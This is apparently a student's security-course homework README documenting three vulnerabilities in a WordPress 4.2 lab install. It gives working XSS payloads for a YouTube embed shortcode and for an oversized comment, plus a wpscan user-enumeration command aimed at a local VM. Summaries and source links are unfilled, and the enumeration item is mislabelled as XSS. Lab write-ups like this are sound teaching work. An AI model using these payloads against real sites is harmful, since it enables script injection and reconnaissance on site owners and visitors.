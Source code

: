 ## Unit 7 & 8 Project: WordPress vs. Kali

**Homework Instructions**:

Time spent: **48** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPres

### 1. (Required) Youtube Embedded Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="2022-10-28-12-50-39.gif">
- [ ] Steps to recreate: 
- Create a post with the following text: [embed src='http://www.youtube.com/embed/sss\x3csvg onload=alert(1)\x3e'][/embed]
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  
### 2. (Required) Comment Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="Untitled design.gif">
- [ ] Steps to recreate: 
- Paste the following text in a comment: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a> 
- Make sure the character length is 64kb or more.
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) User Enumeration

- [ ] Summary: 
Vulnerability types: XSS
Tested in version: 4.2
Fixed in version: 4.7.3 
- [ ] GIF Walkthrough: <img src="2022-10-28-12-55-33.gif">
- [ ] Steps to recreate: 
- Paste the following code to kali-linux terminal: wpscan --url wpdistillery.vm --enumerate u
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

